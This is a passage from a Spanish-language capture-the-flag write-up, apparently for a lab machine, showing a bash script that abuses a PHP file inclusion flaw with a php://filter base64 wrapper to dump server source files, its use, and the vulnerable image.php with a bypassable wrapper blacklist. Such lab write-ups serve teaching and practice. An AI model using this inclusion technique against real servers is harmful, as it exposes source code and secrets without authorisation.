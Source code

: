 ```bash
    >&2 echo -e "\n No has proporcionado argumento, por favor proporciona archivo a listar..\n"

    exit 1

fi


curl -s -X GET "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=$1" | base64 -d > $1
```
Y ahora voy sacando uno a uno los archivos php encontrados que se guardarán directamente en el directorio. Podría haber hehco un bucle que pasará la lista de archivos peeeero lo dejo así:
```bash
❯ ./rce.sh profile.php
❯ ./rce.sh image.php
❯ ./rce.sh login.php
❯ ./rce.sh upload.php
❯ ./rce.sh index.php

❯ ls
total 28K
-rw-r--r-- 1 root root  111 jun 27 10:17 alistar.txt
-rw-r--r-- 1 root root  507 jun 27 10:55 image.php
-rw-r--r-- 1 root root  188 jun 27 10:56 index.php
-rw-r--r-- 1 root root 2,1K jun 27 10:56 login.php
-rw-r--r-- 1 root root 3,0K jun 27 10:30 profile.php
-rwxr-xr-x 1 root root  349 jun 27 10:28 rce.sh
-rw-r--r-- 1 root root 1018 jun 27 10:56 upload.php
```
## Inspeccionando el código

Toca inspeccionar el código. Así funcionaba el image.php:
```php
<?php

function is_safe_include($text)
{
    $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");

    foreach ($blacklist as $item) {
        if (strpos($text, $item) !== false) {
            return false;
        }
    }
    return substr($text, 0, 1) !== "/";

}

if (isset($_GET['img'])) {
    if (is_safe_include($_GET['img'])) {
        include($_GET['img']);
    } else {
        echo "Hacking attempt detected!";
    }
}
```
